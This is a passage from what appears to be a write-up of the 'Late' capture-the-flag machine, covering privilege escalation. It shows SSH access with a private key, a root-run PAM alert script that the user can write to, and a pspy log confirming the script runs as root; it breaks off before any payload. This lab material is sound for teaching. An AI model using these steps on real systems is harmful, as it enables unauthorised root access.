 ```bash
[werz@ctf01 user]$ chmod 600 id_rsa 
[werz@ctf01 user]$ ssh -i id_rsa svc_acc@late.htb
```

After connecting if we check the `/usr/local/sbin` directory we notice a file `ssh-alert.sh` ( linpeas says it also ) that looks interesting we own it also by **svc_acc** user.

```bash
svc_acc@late:/usr/local/sbin$ cat ssh-alet.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

The script looks to give out an alert to the root user whenever someone logs in with SSH,
Let's upload [Pspy](https://github.com/DominicBreuker/pspy) to the monitor it in order to check how the script is run.
we can simlpy upload it using scp .

>  [werz@ctf01 user]$ scp -i id_rsa www/pspy32s svc_acc@late.htb:/tmp

so yeah the script runs as root **UID=0** when a ssh connection made.

```bash
2022/08/03 13:50:13 CMD: UID=0    PID=1      | /sbin/init maybe-ubiquity 
2022/08/03 13:50:43 CMD: UID=0    PID=29921  | /usr/sbin/sshd -D -R 
2022/08/03 13:50:43 CMD: UID=110  PID=29922  | sshd: [net]          
2022/08/03 13:50:49 CMD: UID=0    PID=29923  | /bin/bash /usr/local/sbin/ssh-alert.sh 
2022/08/03 13:50:49 CMD: UID=0    PID=29927  | /usr/sbin/sendmail root@late.htb 
2022/08/03 13:50:49 CMD: UID=???  PID=29926  | ???
2022/08/03 13:50:49 CMD: UID=0    PID=29928  | sendmail: MTA: 273DonSW029928 localhost.localdomain [127.0.0.1]: DATA
2022/08/03 13:50:49 CMD: UID=0    PID=29930  | sensible-mda svc_acc@new root  127.0.0.1 
2022/08/03 13:50:49 CMD: UID=0    PID=29929  | sendmail: MTA: ./273DonSW029928 from queue     
2022/08/03 13:50:49 CMD: UID=1000 PID=29931  | sshd: svc_acc        
```

Since the script is being run as root we could potentially gain privileged access to the system by modifying it, with that we have the write permission to the file:
